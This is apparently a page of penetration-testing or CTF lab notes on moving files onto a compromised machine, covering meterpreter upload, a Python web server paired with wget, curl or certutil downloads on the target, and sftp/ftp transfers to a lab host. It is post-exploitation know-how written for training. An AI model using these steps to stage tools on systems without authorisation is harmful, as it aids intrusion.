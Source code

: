 4._File_transfer

4. File transfer

### Using metasploit:
1. Upgrade to a meterpreter shell if you haven't already
2. use the meterpreter `upload` command
3. That's it!

### Using python web server
1. On your computer in the directory you have the files in, do `sudo python -m SimpleHTTPServer 80` for python2 or `sudo python3 -m http.server 80`. If you visit `localhost` in your browser, you should see the listing of files
2. On the remote machine, run `wget ip/file -O file`, `curl ip/file -o file` for linux or `certutil -urlcache -f http://IP/file file`
3. Done!

### Using sftp (if you have ssh access to a machine)
1. Connect to the machine using ssh except replace ssh with sftp, like `sftp -i id_rsa burturt@panda.thm`
2. ENABLE BINARY TRANFER USING `binary`
3. Use the `put` command to upload files, `get` to download files, `cd` and `ls` to show files.
	- If you are getting weird errors about a port command, try passive mode with `passive`
	- sftp has a recursive get/put flag, like `get -r FOLDER`
4. Done! Note that sftp does NOT allow file execution (unless there is a vulnerability in sftp/ssh by itself) but can be coupled with something like a web server to run a php file for instance

### Using ftp (if you have ssh access to a machine)
1. Connect to the machine using ftp IP like `ftp panda.thm`
2. ENABLE BINARY TRANFER USING `binary`
3. Use the `put` command to upload files, `get` to download files, `cd` and `ls` to show files.
	- If you are getting weird errors about a port command, try passive mode with `passive`
4. Done! Note that ftp does NOT allow file execution (unless there is a vulnerability in ftp by itself) but can be coupled with something like a web server to run a php file for instance